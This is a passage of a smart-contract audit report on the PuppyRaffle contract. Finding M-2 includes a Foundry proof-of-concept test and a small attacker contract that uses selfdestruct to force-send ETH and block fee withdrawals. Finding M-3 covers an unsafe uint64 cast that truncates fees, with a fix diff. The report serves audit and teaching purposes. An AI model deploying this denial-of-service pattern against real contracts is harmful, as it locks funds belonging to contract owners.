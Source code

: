 省略

### [M-2] Balance check on `PuppyRaffle::withdrawFees` enables griefers to force send ETH to the raffle, blocking withdrawals.

**Description:** ...

**Proof of Concept:** ...

**Proof of Code:**

```javascript
function testwithdrawFeesDoS() public playersEntered {
    vm.warp(block.timestamp + duration + 1);
    vm.roll(block.number + 1);
    puppyRaffle.selectWinner();
    WithdrawFeesAttacker attacker = new WithdrawFeesAttacker();
    console.log(
        "puppyRaffle.balance before attack: ",
        address(puppyRaffle).balance
    );
    attacker.attack{value: 1 ether}(address(puppyRaffle));
    console.log(
        "puppyRaffle.balance after attack: ",
        address(puppyRaffle).balance
    );
    vm.prank(puppyRaffle.feeAddress());
    vm.expectRevert();
    puppyRaffle.withdrawFees();
}

contract WithdrawFeesAttacker {
    function attack(address _puppyRaffle) public payable {
        selfdestruct(payable(_puppyRaffle));
    }
}
```

**Recommended Mitigation:** Remove the balance check on the `PuppyRaffle::withdrawFees` function.

### [M-3] Unsafe cast of `PuppyRaffle::fee` loses fees

```javascript
uint256 fee = totalFees / 10;
...
totalFees = totalFees + uint64(fee);
```

The max value of a `uint64` in term of ETH is only ~`18` ETH. If more that 18ETH of fees are collected, the `fee` casting will truncate the value.

Set `PuppyRaffle::totalFees` to a `uint256` instead of a `uint64`, and remove the casting.

```diff
- uint64 public totalFees = 0;
+ uint256 public totalFees = 0;

function selectWinner() external {
...
- totalFees = totalFees + uint64(fee);
+ totalFees = totalFees + fee;
...
}
```
